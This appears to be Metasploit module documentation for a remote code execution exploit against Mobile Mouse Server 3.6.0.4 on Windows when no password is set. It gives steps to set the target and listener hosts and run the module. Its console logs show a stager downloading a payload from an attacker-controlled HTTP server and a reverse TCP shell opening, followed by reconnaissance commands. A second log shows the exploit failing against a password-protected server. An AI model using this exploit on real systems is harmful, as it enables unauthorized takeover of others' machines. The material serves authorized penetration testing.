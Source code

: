## Vulnerable Application

This module utilizes the Mobile Mouse Server by RPA Technologies, Inc protocol
to deploy a payload and run it from the server.  This module will only deploy
a payload if the server is set without a password (default).
Tested against 3.6.0.4, current at the time of module writing

Version 3.6.0.4 can be downloaded from https://www.mobilemouse.com/downloads/setup.exe
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/mobile_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Mobile Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `3`, but can be a little touchy.

## Scenarios

###  Mobile Mouse 3.6.0.4 on Windows 10

```
resource (mobile_mouse.rb)> use exploits/windows/misc/mobile_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mobile_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (mobile_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (mobile_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/mobile_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:9099 - Client name set to: M6braOok6j
[*] 1.1.1.1:9099 - Connecting
[+] 1.1.1.1:9099 - Connected to hostname WIN10PROLICENSE with MAC address 00:0C:29:B3:68:3D
[*] 1.1.1.1:9099 - Opening Command Prompt
[*] 1.1.1.1:9099 - Sending stager
[*] 1.1.1.1:9099 - Using URL: http://2.2.2.2:8080/
[+] 1.1.1.1:9099 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:9099 - Opening Command Prompt again
[+] 1.1.1.1:9099 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:9099 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 1.1.1.1
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49696) at 2022-09-26 15:40:03 -0400
[*] 1.1.1.1:9099 - Server stopped.
[!] 1.1.1.1:9099 - This exploit may require manual cleanup of 'c:\Windows\Temp\gxYUnChTLrOuA.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Windows\Temp>whoami
whoami
win10prolicense\windows

C:\Windows\Temp>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Mobile Mouse 3.6.0.4 on Windows 10, with a password

This should fail as the exploit was not written to work with a password.

```
resource (mobile_mouse.rb)> use exploits/windows/misc/mobile_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mobile_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (mobile_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (mobile_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/mobile_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:9099 - Client name set to: baqpHBHh5Q
[*] 1.1.1.1:9099 - Connecting
[-] 1.1.1.1:9099 - Exploit aborted due to failure: no-access: Unable to connect, server response: Please enter a password
[*] Exploit completed, but no session was created.
```